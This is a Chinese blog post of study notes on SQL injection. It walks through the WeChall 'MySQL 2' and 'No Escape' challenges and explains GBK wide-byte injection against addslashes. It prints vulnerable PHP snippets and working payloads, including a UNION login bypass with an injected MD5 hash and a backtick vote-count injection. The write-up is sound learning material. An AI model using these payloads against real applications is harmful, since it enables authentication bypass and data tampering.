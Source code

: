 ```yaml
---
layout: post
title: "sqli-studying3"
date: 2019-05-16
author: jjnoob
categories:
- 2019-05
tags:
- sqli
---
```


* content
{:toc}


> 看代码, 理解题目意思, 看writeup, 积累.


# 一. Wechall - MySQL 2
源码:
```php

$db = auth2_db();
	
$password = md5($password);
	
$query = "SELECT * FROM users WHERE username='$username'";
	
if (false === ($result = $db->queryFirst($query))) {
    echo GWF_HTML::error('Auth2', $chall->lang('err_unknown'), false);
    return false;
}
	
	
#############################
### This is the new check ###
if ($result['password'] !== $password) {
	echo GWF_HTML::error('Auth2', $chall->lang('err_password'), false);
	return false;
} #  End of the new code  ###
#############################
```

拿Username去获取结果, 将获得的password与输入的password的md5值进行比较

Username:
```sql
' union select 1, 'admin', 'c4ca4238a0b923820dcc509a6f75849b'# 
```

Password=:
```sql
1
```

其中`md5(1) == c4ca4238a0b923820dcc509a6f75849b`

<br />

# 二. Wechall - No Escape 


## (1) 源码
[题目源码地址](http://www.wechall.net/challenge/no_escape/code.include)

### 按模块来看
1. 连接数据库的函数
2. 创建数据库的函数
3. 重置函数, 将票数置为初始值
4. 主题判断函数
5. 票数增一函数
6. stop100()函数, 如果票数为111则执行solved(), 如果票数为100则重置
7. html表单
8. solved()函数

### 按流程来看
1. 点击vote按钮后, 调用noesc_voteup()
2. noesc_voteup()中, 执行update操作后, 调用noesc_stop100()
3. noesc_stop100(), 先检查票数是否为111, 若是则通过. 接着检查票数是否大于等于100, 若是则清零.

### 解题
源码中的关键
```sql
$query = "UPDATE noescvotes SET `$who`=`$who`+1 WHERE id=1";
```

`$who`没有经过任何过滤.

构造:
```php
index.php?vote_for=bill`=111-- `
```
即可.

<br />

# 三. 宽字节注入
[参考](http://www.manongjc.com/article/79150.html)

[参考](https://www.leavesongs.com/PENETRATION/mutibyte-sql-inject.html)



```sql
$id = isset($_GET['id']) ? addslashes($_GET['id']) : 1;
$sql = "SELECT * FROM news WHERE tid='{$id}'";
$result = mysql_query($sql, $conn) or die(mysql_error()); 
```
addslashes函数, 用于将`$id`的值转义. 

addslashes函数产生的效果就是，让`'`变成`\'`, 让引号变得不再是"单引号", 只是一撇而已。一般绕过方式就是，想办法处理`\'`前面的`\`：

1. 想办法给`\`前面再加一个`\`, 变成`\\'`, 这样`\`被转义了，`'`逃出了限制
2. 想办法把`\`弄没有。

宽字节注入是利用mysql的一个特性，mysql在使用GBK编码的时候，会认为两个字符是一个汉字(前一个ascii码要大于128，才到汉字的范围). 

> mysql 在使用GBK 编码的时候，会认为两个字符为一个汉字，例如`%aa%5c` 就是一个汉字(前一个ascii 码大于128 才能到汉字的范围)


所以输入`%df'`时会报错了。我们看到报错，说明sql语句出错，看到出错说明可以注入.

报错的原因就是多了一个单引号, 而单引号前面的反斜杠不见了。

这就是mysql的特性，因为gbk是多字节编码，他认为两个字节代表一个汉字，所以`%df`和后面的`\`也就是`%5c`变成了一个汉字`運'，而`'`逃逸了出来。

不使用'%df`也行, 只要ascii码大于128，基本上就可以了. 比如用`%a1`也可以.

